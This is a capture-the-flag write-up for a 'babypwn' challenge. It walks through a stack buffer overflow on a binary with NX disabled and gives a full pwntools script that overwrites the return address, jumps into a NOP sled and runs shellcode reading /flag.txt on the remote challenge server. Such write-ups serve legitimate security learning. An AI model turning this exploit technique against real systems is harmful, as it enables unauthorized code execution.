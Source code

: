 # babypwn

Points: 100

```bash
➜ checksec babypwn
[*] '/home/squishy/Programs/ctf/2020/cyber_security_rumble/babypwn/baby-pwn-for-download/docker/babypwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

The only protection we have is that PIE enabled. Note that NX is disabled.
Also, we can see from the `babypwn_svc` that ASLR is disabled.

I started by trying to exploit it on the local executable:

To turn off ASLR:
```
➜ setarch `uname -m` -R $SHELL
```

This spawns a shell where any subsequent commands will have ASLR disabled as
well. Running a program in gdb disables ASLR by default.

By overflowing `user_md5`, I was eventually able to execute my shellcode payload
on the stack. I tested this and found that it worked by stepping through the
program in GDB.

However, when I actually ran the program (`./babypwn < payload`), I found that
it didn't work. This was because for some reason, the stack offset was
different from when I ran it in GDB. I was able to confirm this by inspecting
core files caused by the crash.

I then corrected the stack offset by using the address from the core file. This
allowed it to work when running the local executable. However, it failed when
running on my local containerized challenge as well as the remote challenge.

It seemed like:
- With ASLR disabled, the stack addresses will not be deliberately randomized
  between each run. This allowed my exploit to work locally with ASLR disabled.
- With PIE enabled, the stack address will change depending on the context.
  - When running in GDB, I got different stack addresses
  - When running locally, I got different stack addresses
  - When running from the containerized challenge, I got different stack addresses
  - But they are all consistent within themselves (i.e. they won't change each
    time you run it)

Since we don't know the stack addresses on the containerized challenge, we can
only guess. To increase the chances of a successful guess, we can precede our
shellcode with a generous amount of no-ops. Then we just try different stack
addresses until it works.

Script (also in `main_cat_clean.py`):
```python
import pwn

pwn.context.arch = 'amd64'

sh = pwn.remote('chal.cybersecurityrumble.de', 1990)


def inject_shellcode():
    # Target: 120 bytes
    # 8 bytes: (fake input)
    # 1 byte: (null to fool strlen)
    # 111 bytes: (padding)
    # ---
    # 8 bytes: address somewhere in no-ops to reach shellcode
    # ---
    # 2048 bytes: (no ops) <- Goal is to jump somewhere here
    # ? bytes: (shellcode)

    ret_addr_padding = 120

    payload = b'12345678' + b'\0';

    padding = ret_addr_padding - len(payload)
    payload += pwn.cyclic(padding)

    # Keep guessing values until this works.
    # You can use `➜ sudo dmesg | tail -10` to see info on where the program
    # failed.
    sh_code_addr = 0x7fffffffef90 # lucky guess

    print('sh_code_addr: ', hex(sh_code_addr))
    payload += pwn.p64(sh_code_addr)

    payload += pwn.asm(pwn.shellcraft.nop()) * 2048

    # Since we are using `gets`, `stdin` mustbe re-opened if we want to use it
    # Instead let's just `cat` the file
    sh_code = pwn.shellcraft.amd64.linux.cat('/flag.txt')
    sh_code += pwn.shellcraft.exit(0)

    sh_code = pwn.asm(sh_code)
    sh_code = pwn.encoder.line(sh_code)

    payload += sh_code
    print('Payload len: ', len(payload))

    return payload


payload = inject_shellcode()

with open('payload', 'wb') as f:
    f.write(payload)

sh.send(payload)
sh.interactive() # Hit enter to show the output of `cat /flag.txt`
```
